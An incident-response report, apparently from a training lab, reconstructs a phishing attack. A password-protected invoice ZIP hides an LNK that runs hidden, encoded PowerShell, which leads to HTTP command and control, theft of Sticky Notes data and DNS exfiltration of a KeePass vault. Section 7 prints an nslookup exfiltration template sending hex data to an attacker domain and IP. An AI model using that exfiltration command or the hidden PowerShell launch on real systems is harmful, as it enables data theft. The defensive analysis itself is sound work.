# Phishing-Led Endpoint Compromise and DNS Exfiltration

## Overview

I investigated a multi-stage compromise that began with a phishing email containing a password-protected archive. The archive concealed a malicious Windows shortcut that launched hidden, encoded PowerShell.

The attacker subsequently established HTTP Command and Control (C2), downloaded host-enumeration and database-query tools, accessed credentials stored in Microsoft Sticky Notes, collected a KeePass password database, and exfiltrated it through DNS queries.

I correlated evidence from the phishing email, PowerShell Script Block logs, and a packet capture to reconstruct the incident from initial delivery through confirmed data theft.

---

## Investigation Objectives

* Analyze the phishing email and its headers.
* Safely identify the contents of the encrypted attachment.
* Determine how the malicious shortcut achieved code execution.
* Reconstruct the PowerShell activity on the affected endpoint.
* Identify payload-hosting and C2 infrastructure.
* Determine which tools and sensitive files the attacker accessed.
* Confirm the data-encoding and exfiltration methods.
* Correlate endpoint findings with packet-level network evidence.
* Extract actionable Indicators of Compromise (IOCs).
* Recommend containment, remediation, and detection actions.

---

## Evidence Sources

```text
dump.eml
powershell.json
capture.pcapng
```

---

## Tools Used

* **Mozilla Thunderbird** — Email-body, attachment, and header analysis.
* **LNKParse3** — Windows shortcut metadata and command-line extraction.
* **jq and grep** — Filtering PowerShell Script Block logs stored as JSON.
* **Wireshark** — HTTP request analysis and TCP-stream reconstruction.
* **TShark** — Command-line packet-capture inspection.
* **CyberChef** — Decoding decimal-encoded data recovered from C2 traffic.

---

# Investigation

## 1. Phishing Email Triage

I began by opening the supplied email in Thunderbird and reviewing its visible content without opening the attachment.

The email impersonated a collections officer and claimed that an invoice was due for payment. It targeted:

```text
julianne.westcott@hotmail.com
```

The apparent sender was:

```text
agriffin@bpakcaging.xyz
```

The message included a password-protected attachment named `Invoice.zip` and supplied the archive password inside the email body. This was suspicious because encrypted archives can prevent email-security tools from inspecting their contents before delivery.



### Finding

The message used a financial pretext, a password-protected archive, and an external sender domain to persuade the recipient to open an uninspected attachment.

---

## 2. Email Header Analysis

I examined the raw headers to determine how the message was delivered.

The headers associated the email with the third-party relay service **Elastic Email** and showed the originating relay IP:

```text
15.235.99.80
```

The authentication results contained SPF and DKIM passes. These results showed that the message was authorized by the sending infrastructure; they did not prove that the email itself was trustworthy.



### Finding

The attacker used configured mail infrastructure and a third-party relay rather than relying on a simple forged `From` header. This made the email appear more credible and demonstrated why passing SPF or DKIM alone cannot determine whether a message is benign.

---

## 3. Encrypted Attachment Extraction

I saved the attachment and extracted it from the terminal instead of double-clicking its contents.

The archive contained:

```text
Invoice_20230103.lnk
```



### Finding

The supposed invoice was not a document. It was a Windows shortcut designed to masquerade as a normal invoice file and trigger command execution when opened.

---

## 4. Malicious Shortcut Analysis

I analyzed `Invoice_20230103.lnk` with LNKParse3.

The shortcut metadata referenced Windows PowerShell and used a non-interactive window configuration.


Further examination of the shortcut identified:

```text
Target: powershell.exe
Arguments: -nop -windowstyle hidden -enc <Base64 payload>
Icon: Excel-style icon
```



The shortcut combined an invoice-themed description and spreadsheet icon with hidden PowerShell execution.

The `-nop` option disabled profile loading, `-windowstyle hidden` concealed the PowerShell window, and `-enc` supplied a Base64-encoded command.

### Finding

Opening the shortcut would execute an obfuscated PowerShell payload without presenting a normal document to the user. The misleading icon and invoice theme disguised the shortcut's executable behavior.

---

## 5. PowerShell Activity, Payload Delivery, and C2

I filtered the PowerShell Script Block logs with `jq` and `grep` to isolate URLs, downloads, and network activity.

The logs revealed:

* A reference to **PowerSharpPack / Invoke-Seatbelt**.
* HTTP C2 configuration using `cdn.bpakcaging.xyz:8080`.
* A downloaded script named `update`.
* Downloads of `sb.exe` and `sq3.exe` from `files.bpakcaging.xyz`.



The domains served different purposes:

```text
files.bpakcaging.xyz       Payload hosting
cdn.bpakcaging.xyz:8080    Command and Control
```

`sb.exe` was associated with the Seatbelt host-enumeration tool. The attacker used `sq3.exe` as a command-line SQLite utility for querying application data.

### Finding

The PowerShell logs confirmed that the malicious shortcut progressed to an active compromise involving remote tool transfer, endpoint enumeration, and an HTTP-based C2 channel.

---

## 6. Credential Discovery and Sensitive File Collection

I searched the Script Block logs for references to `sq3.exe`, `plum.sqlite`, the victim's user directory, and discovery commands.

The attacker queried the Microsoft Sticky Notes database:

```text
C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
```

The same activity included `whoami`, directory inspection, and access to:

```text
C:\Users\j.westcott\Documents\protected_data.kdbx
```



The `.kdbx` extension identified the file as a KeePass password database. The Sticky Notes data exposed information that could be used to unlock the protected database.

Exact credentials and financial information are intentionally excluded from this report.

### Finding

The attacker used a downloaded SQLite utility to retrieve sensitive notes and then located a password-manager database in the user's Documents directory. This established both credential access and collection of high-value data.

---

## 7. Hex Encoding and DNS Exfiltration

I followed the PowerShell commands associated with `protected_data.kdbx`.

The attacker read the file into a byte array and converted each byte to hexadecimal text.



The resulting hexadecimal string was divided into smaller chunks and inserted into DNS lookups resembling:

```text
nslookup -q=A "<hexadecimal-data>.bpakcaging.xyz" 167.71.211.113
```



The attacker used:

```text
Encoding:        Hexadecimal
Exfiltration:    DNS A-record queries
Utility:         nslookup
Destination IP: 167.71.211.113
```

### Finding

The KeePass database was encoded as hexadecimal text and transmitted inside DNS query labels. This allowed the attacker to move the file through a protocol that is commonly permitted across network boundaries.

---

## 8. HTTP Payload Delivery Validation

I moved to Wireshark to validate the endpoint findings using the packet capture.

Following the HTTP stream for `/update` showed a request to:

```text
Host: files.bpakcaging.xyz
URI:  /update
```

The server returned `HTTP/1.1 200 OK` using:

```text
SimpleHTTP/0.6 Python/3.10.7
```

The response body contained the PowerShell script that configured communication with `cdn.bpakcaging.xyz:8080`.



### Finding

Packet-level evidence independently confirmed the PowerShell download recorded on the endpoint and identified Python's simple HTTP server as the software used to host the payload.

---

## 9. HTTP Command and Control Analysis

I applied a broad Wireshark filter for HTTP POST requests.

The results contained normal Microsoft traffic alongside repeated external POST requests from the victim to `159.89.205.40`. I correlated the suspicious destination with the C2 configuration recovered from the PowerShell logs.

```text
Victim IP: 10.10.182.255
C2 IP:     159.89.205.40
Method:    POST
```



Following one of the suspicious TCP streams revealed:

```text
Host:         cdn.bpakcaging.xyz:8080
URI:          /27fe2489
User-Agent:   WindowsPowerShell/5.1.18362.145
Content-Type: application/x-www-form-urlencoded
Method:       POST
```

The request also included a custom session header and a body containing long sequences of decimal values.



### Finding

The repeated POST requests, PowerShell user-agent, custom header, encoded body, and correlation with the endpoint script confirmed `cdn.bpakcaging.xyz:8080` as active HTTP C2 infrastructure.

---

## 10. Decoding the C2 Output

I extracted the decimal values from the HTTP POST body and decoded them in CyberChef using the **From Decimal** operation.



The decoded content contained command output from the compromised host and sensitive information recovered during the attack.

The investigation confirmed that the attacker obtained data that could be used to access the KeePass database. The lab analysis also confirmed that the exfiltrated vault contained a financial record. The exact password and payment-card information are intentionally withheld.

### Finding

The C2 traffic did not only deliver commands. It also returned their output to the attacker, confirming two data-loss paths:

* Sensitive command output transmitted through HTTP C2.
* The KeePass database exfiltrated through DNS.

---

# Key Findings

| Category                  | Finding                                                                      |
| ------------------------- | ---------------------------------------------------------------------------- |
| Incident Classification   | Phishing-led endpoint compromise with credential theft and data exfiltration |
| Targeted User             | Julianne Westcott / `j.westcott`                                             |
| Compromised Host          | `QL-WKSTN-5693`                                                              |
| Victim IP                 | `10.10.182.255`                                                              |
| Phishing Sender           | `agriffin@bpakcaging.xyz`                                                    |
| Mail Relay                | Elastic Email / `15.235.99.80`                                               |
| Malicious Attachment      | `Invoice.zip`                                                                |
| Embedded File             | `Invoice_20230103.lnk`                                                       |
| Initial Execution         | Hidden, Base64-encoded PowerShell                                            |
| Payload Host              | `files.bpakcaging.xyz`                                                       |
| C2 Domain                 | `cdn.bpakcaging.xyz:8080`                                                    |
| C2 IP                     | `159.89.205.40`                                                              |
| Enumeration Tool          | Seatbelt / `sb.exe`                                                          |
| Database Utility          | `sq3.exe`                                                                    |
| Credential Source         | Microsoft Sticky Notes `plum.sqlite`                                         |
| Collected File            | `protected_data.kdbx`                                                        |
| HTTP C2 Encoding          | Decimal byte values                                                          |
| DNS Exfiltration Encoding | Hexadecimal                                                                  |
| DNS Exfiltration Server   | `167.71.211.113`                                                             |
| Confirmed Impact          | KeePass vault theft and sensitive financial-data exposure                    |

---

# Indicators of Compromise

## Domains

```text
bpakcaging.xyz
cdn.bpakcaging.xyz
files.bpakcaging.xyz
```

## IP Addresses

```text
159.89.205.40     HTTP C2
167.71.211.113    DNS exfiltration destination
```

The observed mail-relay IP `15.235.99.80` belongs to third-party delivery infrastructure and should be treated as contextual evidence rather than blocked solely because it appeared in this incident.

## Files and Paths

```text
Invoice.zip
Invoice_20230103.lnk
update
sb.exe
sq3.exe
C:\Users\j.westcott\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
C:\Users\j.westcott\Documents\protected_data.kdbx
```

## Network Indicators

```text
Destination port: 8080
HTTP method: POST
C2 URI: /27fe2489
User-Agent: WindowsPowerShell/5.1.18362.145
Custom header: X-38d2-8f49
Repeated DNS A queries containing long hexadecimal subdomains
```

The PowerShell user-agent and HTTP method should be used together with the rare destination, unusual port, URI, and custom header rather than treated as malicious indicators on their own.

---

# MITRE ATT&CK Mapping

| Technique                                                                                             | ID            | Evidence                                                                                              |
| ----------------------------------------------------------------------------------------------------- | ------------- | ----------------------------------------------------------------------------------------------------- |
| [Spearphishing Attachment](https://attack.mitre.org/techniques/T1566/001/)                            | **T1566.001** | The victim received a password-protected ZIP containing a malicious shortcut.                         |
| [User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002/)                      | **T1204.002** | The attack required the recipient to extract and open `Invoice_20230103.lnk`.                         |
| [Masquerading](https://attack.mitre.org/techniques/T1036/)                                            | **T1036**     | The shortcut used an invoice description and spreadsheet-style icon to disguise PowerShell execution. |
| [PowerShell](https://attack.mitre.org/techniques/T1059/001/)                                          | **T1059.001** | Hidden PowerShell executed the encoded initial payload and subsequent attacker commands.              |
| [Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027/)                         | **T1027**     | The shortcut contained a Base64-encoded PowerShell command intended to conceal its behavior.          |
| [Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/)                                   | **T1105**     | `update`, `sb.exe`, and `sq3.exe` were downloaded from attacker-controlled infrastructure.            |
| [File and Directory Discovery](https://attack.mitre.org/techniques/T1083/)                            | **T1083**     | The attacker enumerated the user's Documents directory and located `protected_data.kdbx`.             |
| [Data from Local System](https://attack.mitre.org/techniques/T1005/)                                  | **T1005**     | Sticky Notes data and the KeePass database were collected from the endpoint.                          |
| [Credentials from Password Stores: Password Managers](https://attack.mitre.org/techniques/T1555/005/) | **T1555.005** | The attacker acquired a KeePass password database stored on disk.                                     |
| [Application Layer Protocol: Web Protocols](https://attack.mitre.org/techniques/T1071/001/)           | **T1071.001** | HTTP GET and POST requests supported payload delivery and C2 communication.                           |
| [Exfiltration Over C2 Channel](https://attack.mitre.org/techniques/T1041/)                            | **T1041**     | Sensitive command output was encoded into the existing HTTP C2 channel.                               |
| [Exfiltration Over Unencrypted Non-C2 Protocol](https://attack.mitre.org/techniques/T1048/003/)       | **T1048.003** | Hex-encoded KeePass data was transmitted through DNS queries to a separate destination.               |

I limited the mapping to techniques directly supported by the email, PowerShell, and packet-capture evidence.

---

# SOC Assessment

**Verdict:** True Positive
**Analyst-assessed Severity:** High

This incident should be escalated as a confirmed endpoint compromise and data breach.

The assessment is supported by correlated evidence across three independent sources:

* A phishing email delivered an encrypted archive containing a malicious shortcut.
* LNK metadata confirmed hidden, encoded PowerShell execution.
* PowerShell logs revealed payload downloads, enumeration, C2, credential discovery, and collection.
* Wireshark confirmed the malicious HTTP downloads and repeated C2 POST traffic.
* C2 command output was encoded and transmitted over HTTP.
* A KeePass database was converted to hexadecimal and exfiltrated through DNS.
* The recovered data demonstrated exposure of credentials and financial information.

The presence of active C2 and confirmed sensitive-data exfiltration makes this substantially more severe than an attempted phishing event.

---

# Recommended Response Actions

If this activity were detected in a production environment, I would recommend:

1. **Immediately isolate `QL-WKSTN-5693`** to terminate C2 and prevent further data loss.
2. **Block the confirmed payload-hosting, C2, and exfiltration infrastructure** at DNS, firewall, proxy, and EDR controls.
3. **Purge the phishing email** from every recipient mailbox and search for related messages and attachments.
4. **Reset the affected user's credentials** and revoke active authentication sessions.
5. **Rotate every credential stored in Sticky Notes or the KeePass vault**, including the vault master password.
6. **Notify the appropriate fraud and payment-security teams** because payment-card information was exposed.
7. **Preserve forensic evidence**, including memory, disk, PowerShell logs, DNS logs, proxy logs, and the original email.
8. **Quarantine the LNK file, scripts, and downloaded executables** using the identified names and paths.
9. **Rebuild the workstation from a trusted image** because arbitrary code execution and data theft were confirmed.
